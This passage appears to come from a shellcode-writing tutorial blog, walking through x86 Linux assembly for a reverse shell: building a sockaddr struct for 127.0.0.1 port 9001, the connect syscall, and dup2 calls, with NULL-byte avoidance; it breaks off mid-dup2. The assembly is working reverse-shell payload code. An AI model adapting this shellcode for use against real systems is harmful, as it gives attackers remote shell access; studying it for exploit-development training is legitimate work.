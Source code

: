 As we can see above, ECX is XOR’d and pushed onto the stack (resulting in 0x00000000), we then move the value 127 (0x7f) into the lowest part of the address, followed by another move byte instruction which places the value 1 (0x1) into the highest part of the register, finally resulting in 0x0100007f - this now means the current value on the top of our stack is our local IP address, 127.0.0.1. We then complete our data struct by pushing our port number and value for AF_INET onto the stack.

Now we have our completed data struct in memory, we can implement our connect system call with each parameter correctly set ready for execution. This can seen in the following snippet:

```
; syscall connect 362 (0x16a)
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
xor eax, eax
mov ax, 0x16a
mov ebx, edi                     ; our backed up fd from socket()

; create our struct
xor ecx, ecx
push ecx
mov byte [esp], 0x7f             ; now esp is: 0x0000007f
mov byte [esp+3],0x01            ; now esp is 0x0100007f
push ecx
push word 0x2923                 ; port 9001
push word 0x2                    ; AF_INET
mov ecx, esp                     ; set the 2nd param to equal a pointer to our struct

xor edx, edx
mov dl, 16                       ; size of struct
int 0x80
```

To quickly cover the above snippet, we start off by XOR-ing our EAX register before placing the syscall value 362 (0x16a) into the lower half of the register. Remember, we use AX instead of EAX to remove any NULL bytes in the final payload. We place the value returned by our socket() system call in our 1st parameter (EBX) before crafting our sockaddr struct. Once created and placed on the stack, as described before, we move the current value of our ESP register (pointer to the top of the stack) into our second parameter (ECX). This now satisfies the pointer requirement, described in our initial analysis of the connect system call. Finally, we xor our 3rd parameter register (EDX) and move the value 16 into the lower half of the register, stating the size of the struct. The system call is now ready to execute with the ‘int 0x80’ instruction.

We now need to call dup2() three times to set up our pipes for our final shell. Originally, in the implementation of the bind shell, I implemented three separate chunks of instructions to perform the system call with the correct parameter values. In my second draft I changed this to use a loop, decrementing the counter each time before breaking out of the loop. This time around I returned to the three separate chunks of instructions. The main reason was, I forgot how to implement a loop and I didn’t want to look back at my previous asm file for help. So I stuck with the three chunks:

```
; syscall dup2 - 3 times 63 (0x3f)
; int dup2(int oldfd, int newfd);
xor eax, eax
mov al, 0x3f
mov ebx, edi
xor ecx, ecx
int 0x80                ; first call with 0

xor eax, eax
mov al, 0x3f
mov ebx, edi
mov cl, 0x1
int 0x80                ; second call with 1

xor eax, eax
mov al, 0x3f
mov ebx, edi
```